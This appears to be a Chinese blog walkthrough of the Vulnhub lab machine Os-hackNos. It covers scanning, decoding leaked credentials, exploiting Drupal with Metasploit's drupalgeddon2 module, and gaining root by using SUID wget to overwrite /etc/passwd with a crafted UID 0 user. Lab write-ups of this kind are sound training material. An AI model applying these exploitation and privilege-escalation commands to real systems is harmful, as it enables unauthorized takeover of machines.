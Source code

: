 ```yaml
---
title: "Os-hackNos-Vulnhub Walkthrough"
categories: [ "安全技术" ]
tags: [ "vulnhub","靶机","walkthrough" ]
draft: false
slug: "509"
date: "2020-02-14 16:01:00"
---
```


[靶机地址][1]

靶机难度：初等中等之间
flag 数:2

## 工具及漏洞信息

- netdiscover
- nmap
- gobuster
- msf 的 drupal 漏洞利用模块
- SUID 之 wget 提权

## 0x01 信息收集

### 扫描靶机

`netdiscover`的`-r`参数扫描`192.168.1.0/16`结果如下：

![][2]

`nmap`扫描主机及端口信息：

```
nmap -sS -A -n -T4 -p- 192.168.1.11
```

![][3]

`nmap`扫描漏洞信息：

```
nmap --script nmap-vulners -sV 192.168.1.11
```

![][4]

`msf`搜索`cve`漏洞：`search cve:CVE-2019-10082`

没有什么可利用的

### 扫描路径

gobuster 扫描路径：

```
gobuster dir -u http://192.168.1.11 -s 200,301,302 -t 50 -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html,.zip
```

![][5]

又看见了我们熟悉的老朋友`drupal`，还有一个奇怪的路径`alexander.txt`，访问得到内容如下：

```
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKysuLS0gLS0tLS0gLS0uPCsgKytbLT4gKysrPF0gPisrKy4KLS0tLS0gLS0tLjwgKysrWy0gPisrKzwgXT4rKysgKysuPCsgKysrKysgK1stPi0gLS0tLS0gLTxdPi0gLS0tLS0gLS0uPCsKKytbLT4gKysrPF0gPisrKysgKy48KysgKysrWy0gPisrKysgKzxdPi4gKysuKysgKysrKysgKy4tLS0gLS0tLjwgKysrWy0KPisrKzwgXT4rKysgKy48KysgKysrKysgWy0+LS0gLS0tLS0gPF0+LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS4rLi0gLS0tLisKKysuPA==
```

![][6]

`base64`解码后发现是[`Brainfuck code`][7]，[在线解码][8]为`james:Hacker@4514`

尝试使用得到的账号密码通过 SSH 登录靶机，无果

## 0x02 普通用户 getshell

好吧，那就回归我们的老朋友`drupal`，使用之前在`DC:7-Vulnhub Walkthrough`中介绍过的`droopescan`:

```
git clone https://github.com/droope/droopescan
cd droopescan
pip install -r requirements.txt
./droopescan scan drupal -u http://192.168.1.12/drupal -t 32
```

![][9]

扫描出来的是`7.57`版本，而漏洞库是包含这个版本的：

![][10]

启动`msf`，使用效果比较好的模块`exploit/unix/webapp/drupal_drupalgeddon2`:

![][11]

成功获得`meterpreter`会话，进入`shell`后发现又是无回显环境，于是使用`python`获取一个`tty`：

```
python -c 'import pty; pty.spawn("/bin/bash")'
有些没有安装`python2`，所以需要换成
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![][12]

如果你想使用`clear`清屏，那么只需要给`TERM`这个环境变量赋值`screen`即可

`export TERM=screen`，赋值`xterm`也可以，然后输入`screen`回车即可清屏

## 0x03 提权 root

`Linux`常见提权方法有以下三大类：

- 本地提权
- 数据库提权
- 第三方软件提权

而第三方软件提权我们往往使用`suid`来提权

检查哪些命令具有`suid`权限，`SUID`提权在前面的文章《bossplayersCTF:1-Vulnhub Walkthrough》中介绍过

```
find / -perm -u=s -type f 2>/dev/null
```

- /: 在根目录下查找
- perm: 查找指定权限的文件，/u=s 或者-u=s 参数列出系统中所有`SUID`的档案
- type: 找符合指定的文件类型的文件，-type f: 查找指定目录下所有普通文件
- 2>/dev/null: 2>部分的意思是“重定向文件通道号 2”-映射到标准错误文件通道 stderr，这是程序经常将错误写入其中的位置，/dev/null 是一种特殊字符设备，只允许向其中写入任何内容；阅读时，它不会返回任何内容，因此 2>/dev/null 让 shell 将标准错误从正在运行的程序重定向到/dev/null，从而有效地将其忽略。
- SUID: SUID (Set owner User ID up on execution) 简单来说。suid，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。所以我们去找一个文件拥有者为 root，而且其执行位上有 s 的执行文件，那么即使我们用普通用户运行这个文件时，这个文件的执行权限就是 root

![][13]

看到了一个常用的`SUID`提权软件`wget`，`wget`提权的流程简化为下；

- 攻击机使用`opensssl`生成加密密码
- 拼凑一些特殊标志位拼凑成为一条用户`hash`信息写入`passwd`文件
- 在目标机的完整`shell`中使用`wget`下载`passwd`文件并覆盖目标机`/etc/passwd`
- 切换我们手动“创建”的用户，输入我们自己设置的密码，获取`root`权限

具体操作如下：

```
生成密码哈希，后面的密码可以自定义，你记住就行：
openssl passwd -1 -salt salt soapffz
加上拼凑位写入文件：
echo 'soapffz:$1$salt$dyEMWdWzqBIZJWWvteXEg0:0:0::/root/:/bin/bash' >> passwd
```

![][14]

然后在`shell`里下载文件(/etc 文件夹)：

```
wget http://192.168.1.11/passwd -O passwd
su soapffz
```

即可成功提权`root`的`shell`

参考文章：

- [Vulhub 系列：Os-hackNos][15]
- [VulnHub 靶机系列实战教程][16]
- [提权总结以及各种利用姿势][17]

[1]: https://www.vulnhub.com/entry/hacknos-os-hacknos,401/
[2]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_161123.png
[3]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_161242.png
[4]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_161651.png
[5]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_164443.png
[6]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200227_141952.png
[7]: https://zh.wikipedia.org/wiki/Brainfuck
[8]: https://www.splitbrain.org/_static/ook/
[9]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200227_143632.png
[10]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200227_143755.png
[11]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200227_144433.png
[12]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200227_144715.png
[13]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200227_145502.png
[14]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200227_155008.png
[15]: https://mp.weixin.qq.com/s/xpM2aUGwDH_beipuvtZQeg
[16]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ
[17]: https://mp.weixin.qq.com/s/9fsn4UT29eXW7SFrTz5L1Q